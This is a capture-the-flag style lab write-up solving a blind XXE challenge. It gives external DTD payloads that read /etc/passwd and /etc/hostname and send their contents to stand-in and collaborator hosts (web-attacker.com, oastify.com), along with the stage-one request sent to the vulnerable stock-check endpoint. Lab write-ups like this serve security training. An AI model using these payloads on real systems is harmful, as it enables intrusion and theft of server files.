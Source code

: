 materials:
**exfiltrate payload:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

**to be hosted in exploit server address:**
    http://web-attacker.com/malicious.dtd

**payload submission to victim:**
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>

colaborateor:
    g0hojfqbweb8xmmqqid4qsobw22uqj.oastify.com


1.  craft a payload to exfiltrate content (stage2) - to be hosted on exploit server.
*(after failing with exfiltrating /etc/passwd (beacause of new line characters not being parsed by XML - replace target to /etc/hostname)* 

```xml
 <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://1su9b0iwoz3tp7ebi35pidgwonuhi6.oastify.com/?x=%file;'>">
    %eval;
    %exfiltrate;
```

2. the payload address:
```
https://exploit-0a800077030e429cc0801b93010e00aa.exploit-server.net/exploit.dtd
```

3. craft payload for entry-site (stage1)
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a800077030e429cc0801b93010e00aa.exploit-server.net/exploit.dtd"> %xxe;]>
```
4. send to vulnerable site:
**request**:
```xml
POST /product/stock HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a800077030e429cc0801b93010e00aa.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

5. observe in colaborator:
```
GET /?x=7369a26b5cf0 HTTP/1.1
```
6. enter the value of x as solution

# Lab Solved
